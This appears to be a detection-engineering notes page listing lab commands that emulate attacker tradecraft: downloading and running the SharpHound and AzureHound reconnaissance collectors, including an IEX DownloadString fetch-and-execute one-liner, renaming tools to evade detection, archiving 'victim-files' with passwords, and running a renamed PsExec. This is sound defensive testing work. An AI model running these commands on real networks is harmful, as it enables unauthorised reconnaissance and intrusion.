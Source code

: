 # Analytic Creation and Emulation

References:
- https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
- https://github.com/BloodHoundAD/SharpHound3
- 

## SharpHound

### Powershell for bloodhound testing   

```
    [Net.ServicePointManager]::SecurityProtocol = 
            [Net.SecurityProtocolType]::Tls12
      Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1" -OutFile "c:\temp\SharpHound.ps1"
      import-module c:\temp\SharpHound.ps1
      Invoke-BloodHound -OutputDirectory c:\temp\
```

```
      IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1');
      Invoke-BloodHound -OutputDirectory $env:Temp
```

Copy/Paste cmdline tests:

- `cmd.exe /c powershell.exe import-module c:\temp\SharpHound.ps1; Invoke-BloodHound -CollectionMethod DCOnly -NoSaveCache -RandomizeFilenames -EncryptZip`

- `cmd.exe /c powershell.exe import-module c:\temp\SharpHound.ps1; Invoke-BloodHound -CollectionMethod all`

- `cmd.exe /c powershell.exe import-module c:\temp\SharpHound.ps1; Invoke-BloodHound -OutputDirectory c:\temp\`


#### Binary/PE usage

```
    [Net.ServicePointManager]::SecurityProtocol = 
            [Net.SecurityProtocolType]::Tls12
      Invoke-WebRequest "https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe" -OutFile "c:\temp\SharpHound.exe"

```

- `cmd.exe /c c:\temp\sharphound.exe --CollectionMethod all`
- `cmd.exe /c c:\temp\sharphound.exe -c all`

Renamed

```
copy-item 'c:\temp\sharphound.exe' c:\temp\notsharph.exe
c:\temp\notsharph.exe --CollectionMethod all
```

## AzureHound

```
    [Net.ServicePointManager]::SecurityProtocol = 
            [Net.SecurityProtocolType]::Tls12
      Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/AzureHound.ps1" -OutFile "c:\temp\AzureHound.ps1"
      import-module c:\temp\AzureHound.ps1
      Invoke-AzureHound
```

- `cmd.exe /c powershell.exe import-module c:\temp\AzureHound.ps1; Invoke-AzureHound`

## PSexec, Archive Testing

In Attack Range:
```
copy-item 'C:\Program Files\7-Zip\7z.exe' c:\temp\not7z.exe
copy-item 'C:\Program Files\7-Zip\7z.dll' c:\temp\7z.dll
mkdir c:\temp\victim-files
cd c:\temp\victim-files
echo "This file will be encrypted" > .\encrypted_file.txt
cmd.exe /c c:\temp\not7z.exe u archive.7z *txt -pblue
dir
```

```
bitsadmin /transfer myDownloadJob /download /priority normal "https://www.win-rar.com/fileadmin/winrar-versions/winrar/th/winrar-x64-580.exe" c:\temp\winrar.exe
cmd.exe /c c:\temp\winrar.exe /S
```

```
    [Net.ServicePointManager]::SecurityProtocol = 
            [Net.SecurityProtocolType]::Tls12
      Invoke-WebRequest "https://www.win-rar.com/fileadmin/winrar-versions/winrar/th/winrar-x64-580.exe" -OutFile "c:\temp\winrar.exe"

```
```
copy-item C:\Program Files\WinRAR\winrar.exe c:\temp\notrar.exe

mkdir .\tmp\victim-files
cd .\tmp\victim-files
echo "This file will be encrypted" > .\encrypted_file.txt
cmd.exe /c c:\temp\notrar.exe a -hp"blue" hello.rar
```

```
    [Net.ServicePointManager]::SecurityProtocol = 
            [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
Copy-Item $env:TEMP\PsTools\PsExec.exe c:\temp\notps.exe

cmd.exe /c c:\temp\notps.exe -accepteula -c wmic process call create notepad.exe
```